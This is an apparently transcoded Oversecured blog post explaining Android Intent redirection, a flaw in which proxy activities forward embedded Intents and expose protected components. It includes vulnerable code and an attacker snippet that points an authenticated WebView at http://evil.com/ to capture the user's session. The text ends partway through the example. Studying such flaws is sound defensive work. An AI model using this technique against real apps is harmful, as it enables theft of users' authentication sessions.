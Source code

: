 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.oversecured.com](https://blog.oversecured.com/Android-Access-to-app-protected-components/)

Introduction
------------

This vulnerability resembles Open Redirect in web security. Since class `Intent` is `Parcelable`, objects belonging to this class can be passed as extra data in another `Intent` object. Many developers make use of this feature and create proxy components (activities, broadcast receivers and services) that take an embedded Intent and pass it to dangerous methods like `startActivity(...)`, `sendBroadcast(...)`, etc. This is dangerous because an attacker can force the app to launch a non-exported component that cannot be launched directly from another app, or to grant the attacker access to its content providers. `WebView` also sometimes changes a URL from a string to an `Intent` object, using the `Intent.parseUri(...)` method, and passes it to `startActivity(...)`. This leads to a violation of Android’s security design, and nullifies all the access restrictions the developers have created. According to Oversecured statistics, more than 80% of apps contain this vulnerability. This may result in the theft of authentication details (the user’s session), the forging of content within the app, and sometimes also to the execution of arbitrary code – for example, in situations where an attacker can acquire the ability to rewrite files and substitute for the native library.

A typical case
--------------

Let us examine an example. Fragment of the `AndroidManifest.xml` file

```
<activity android: />
<activity android: />


```

Activity `ProxyActivity`

```
startActivity((Intent) getIntent().getParcelableExtra("extra_intent"));


```

Activity `AuthWebViewActivity`

```
webView.loadUrl(getIntent().getStringExtra("url"), getAuthHeaders());


```

`AuthWebViewActivity` is an example of hidden app functionality that performs certain unsafe actions, in this case passing the user’s authentication session to a URL obtained from the `url` parameter.

Export restrictions mean the attacker cannot access `AuthWebViewActivity` directly. A direct call

```
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://evil.com/");
startActivity(intent);


```
